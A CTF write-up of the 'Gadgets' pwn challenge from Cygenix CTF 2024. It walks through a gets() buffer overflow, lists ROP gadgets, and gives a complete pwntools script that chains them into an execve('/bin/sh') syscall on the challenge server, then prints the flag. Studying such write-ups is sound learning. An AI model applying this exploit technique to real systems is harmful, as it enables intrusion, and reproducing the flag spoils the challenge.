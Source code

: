 # Cygenix CTF 2024

## Gadgets

> *"Even the strongest defenses have cracks; find them."*
>
>  Author: N/A
>
> [`main`](main)

Tags: _pwn_

## Solution
To ananlyze the binary for this challenge we put it through `Ghidra`. The setup is very close to [`classic`](../classic/README.md), a tiny `main` function that does nothing. Since the challenge is called `Gadgets` we take this as an hint and search for potential interesting gadgets.

```c
void win(void)
{
  syscall();
  return;
}



undefined8 main(void)
{
  char local_28 [32];
  
  puts("----------------------------------------------");
  puts("w3ll_7h353_w1ll_b3_1mp0551bl3_?");
  puts("7h353 m16h7 h3lp y0u /bin/sh");
  puts("----------------------------------------------");
  fflush(stdout);
  gets(local_28);
  return 0;
}
```

For this we can use `ROPgadget`. We find an `syscall`, that thankfully is provided us by the `win` function. With this we can do a lot of things, also get an remote shell. The only thing is, we need to find the right gadgets to setup the syscall.

```bash
$ ROPgadget --binary main | grep rax
....
0x000000000040114c : pop rax ; ret
....
```

To get a shell we can use syscall `0x3b` (execve). Check [`this`](https://x64.syscall.sh/) for more information. For this we need the following setup.

```bash
rax = 3bh
rdi = address to "/bin/sh"
rsi = 0
rdx = 0
```

We need to search gadgets in the form `pop register; ret`. And thankfully we find any of the needed gadgets and note down the addresses.

The following script builds the rop chain to first setup the registers with the needed values and then jump to the syscall to execute `execve` and give us hopefully a shell.

```python
from pwn import *

context.binary = binary = ELF("./main")

p = remote("chall.ycfteam.in", 2222)

pop_rax = 0x40114c
pop_rdi = 0x40114a
pop_rsi = 0x401150
pop_rdx = 0x40114e
syscall = 0x401159
bin_sh  = next(binary.search(b"/bin/sh"))

payload = flat({
    0x28: [
        # rax = 0x3b
        pop_rax,
        0x3b,
        # rdi = address of "/bin/sh"
        pop_rdi,
        bin_sh,
        # rsi = 0
        pop_rsi,
        0,
        # rdx = 0
        pop_rdx,
        0,
        # call win
        syscall
    ]
})

p.sendline(payload)
p.interactive()
```

```bash
----------------------------------------------
w3ll_7h353_w1ll_b3_1mp0551bl3_?
7h353 m16h7 h3lp y0u /bin/sh
----------------------------------------------
$ ls
flag.txt
main
$ cat flag.txt
CyGenixCTF{74k3_17_y0u_d353rv3_17_br0_j01n7_5y5c4ll}
```

Flag `CyGenixCTF{74k3_17_y0u_d353rv3_17_br0_j01n7_5y5c4ll}`